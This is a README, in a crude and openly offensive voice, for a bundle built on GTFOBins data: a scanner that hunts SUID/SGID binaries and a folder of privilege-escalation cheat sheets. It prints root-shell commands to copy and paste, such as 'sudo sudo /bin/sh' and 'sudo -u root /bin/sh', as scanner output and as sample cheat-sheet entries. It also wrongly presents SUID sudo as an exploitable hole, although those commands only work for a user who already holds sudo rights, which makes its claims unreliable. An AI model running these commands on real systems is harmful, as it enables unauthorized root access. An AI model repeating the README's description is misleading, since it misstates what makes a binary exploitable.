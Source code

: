 ## GTFOBins 
What's in the box? <br>
You get two things:<br>

- gtfo.sh - A scanner that finds dangerous binaries you can exploit.<br>

- .gtfodata/ - A folder full of cheat sheets for breaking shit.<br>

### How to Use This Damn Thing<br>

1. Unzip It<br>
unzip gtfo-bundle.zip

2. Run the Scanner<br>
Make it executable and fire it up:<br>
chmod +x gtfo.sh <br>
./gtfo.sh <br>

3. What You'll See <br>
The script hunts for SUID/SGID binaries (the kind that can give you root if they're fucked up). When it finds one, it shows: <br>

Where the binary is (like /usr/bin/sudo) <br>

What you can do with it (like sudo or shell tricks) <br>

The actual commands to run (copypasta this shit) <br>

Example output: <br>

[!] Found something juicy: /usr/bin/sudo <br>
 [>] Tricks you can pull: sudo, shell <br>
 [>] Sudo exploit: <br>
    sudo sudo /bin/sh <br>
 [>] Shell exploit: <br>
    sudo -u root /bin/sh <br>
How to Read the GTFOBins Cheat Sheets <br>
Every file in .gtfodata/ (like sudo.md) has exploit recipes like this: <br>

functions: <br>
  sudo: <br>
    - code: sudo sudo /bin/sh <br>
  shell: <br>
    - code: sudo -u root /bin/sh <br>

functions: - Different ways to abuse it. <br>
sudo: - How to turn sudo into a root shell. <br>
shell: - How to spawn a shell directly. <br>

## Why Bother With This? <br>
Fast as hell - Finds vulnerable binaries in seconds. <br>
No internet needed - All the exploits are right there. <br>
Thanks to GTFOBins.
